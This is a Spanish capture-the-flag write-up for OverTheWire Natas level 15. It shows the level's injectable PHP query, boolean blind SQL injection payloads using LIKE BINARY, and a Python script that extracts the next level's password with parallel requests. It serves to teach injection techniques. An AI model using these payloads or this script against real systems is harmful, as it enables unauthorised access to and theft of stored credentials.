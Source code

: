Este nivel consiste en un buscador de usuarios. El código nos da en un comentario una pista sobre los campos de la tabla `users`:

```php
<?php  
  
/*  
CREATE TABLE `users` (  
  `username` varchar(64) DEFAULT NULL,  
  `password` varchar(64) DEFAULT NULL  
);  
*/  
  
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";  
    if(array_key_exists("debug", $_GET)) {  
        echo "Executing query: $query<br>";  
    }    $res = mysqli_query($link, $query);  
    if($res) {  
    if(mysqli_num_rows($res) > 0) {  
        echo "This user exists.<br>";  
    } else {  
        echo "This user doesn't exist.<br>";  
    }  
    } else {  
        echo "Error in query.<br>";  
    }    mysqli_close($link);  
} else {  
?>
```

Resulta lógico buscar al usuario con la sintaxis usual de estos niveles: `natas16`, ya que verificamos que este existe, pasamos a escribir nuestro *query*. Aquí debemos agregar el campo `password`, en contraste con el nivel anterior:

```
username = natas16 " and password LIKE "a%"
```

```sql
 SELECT * from users where username="natas16" and password LIKE "a%"
```

En un primer acercamiento, seleccionamos las contraseñas que comiencen con `a` usando la instrucción `LIKE`, donde el carácter de porcentaje `%` sirve de comodín. Probando distintos caracteres, hasta encontrar un "usuario existente", veremos que el primer carácter de la contraseña es `h` y podremos continuar este método hasta completar la contraseña:

```
username = natas16 " and password LIKE "ha%"
```

```sql
 SELECT * from users where username="natas16" and password LIKE "ha%"
```

Sin embargo, hay un par de problemas con este método:
1. La contraseña no es corta y realizarlo manualmente se vuelve tedioso rápidamente, debemos hacer un script.
2. Si probamos la letra `H`, la consulta también será exitosa, esto se debe a que la búsqueda no distingue entre mayúsculas y minúsculas, es *case insensitive*. Para modificar este comportamiento debemos agregar la función `BINARY`, que convierte la cadena a binario antes de pasar a la función `LIKE`.

```
username = natas16 " and password LIKE BINARY "a%"
```

```sql
 SELECT * from users where username="natas16" and password LIKE BINARY "a%"
```

El script puede ser implementado de infinitas formas, para [esta solución](https://github.com/IberoGIC/gic-level-2/blob/main/Challenges/OTW_Natas/Lvl_15/Ordenmoria/script.py) se usa python.

Construimos una lista que contiene todos los caracteres posibles para la contraseña (mayúsculas, minúsculas y números).
```python
alphanumeric = string.ascii_letters + string.digits
```

Definimos una función para enviar una petición a la página web, especificando el valor del campo `username` en el formulario y los datos de la autenticación del nivel: `username` y `password`.

```python
def send_request(current_password, char):
    try:
        form_data = {'username': 'natas16" and password LIKE BINARY "' + current_password + char + '%'}
        response = requests.post(url, data=form_data, auth=HTTPBasicAuth(username, password))
        if "This user exists." in response.text:
            return True, char
        else:
            return False, char

    except requests.exceptions.RequestException as e:
        return False, None
```

Enviamos una petición por cada carácter, en procesos paralelos, y agregamos el carácter con respuesta exitosa a la contraseña.

```python
def perform_parallel_requests(current_password):  
    # Create a ThreadPoolExecutor to handle multiple requests in parallel  
    with ThreadPoolExecutor(max_workers= len(alphanumeric)) as executor:  
        # Submit request for each character  
        futures = [executor.submit(send_request, current_password, char) for char in alphanumeric]  
  
        # Wait for all futures to complete and collect results  
        for future in futures:  
            user_exists, char = future.result()  
            if user_exists:  
                    return current_password + char  
        return current_password
```

Repetimos las peticiones paralelas hasta que no se agregue un nuevo carácter a la contraseña .

```python
while current_password != last_password:  
    last_password = current_password  
    current_password = perform_parallel_requests(current_password)  
    print(current_password)
```


---
## **Conclusión**

Este nivel demuestra cómo una inyección SQL sencilla puede ser explotada para realizar un ataque de fuerza bruta optimizado y subraya la necesidad de implementar prácticas seguras en el manejo de entradas de usuario.

---
-,"  
[_P
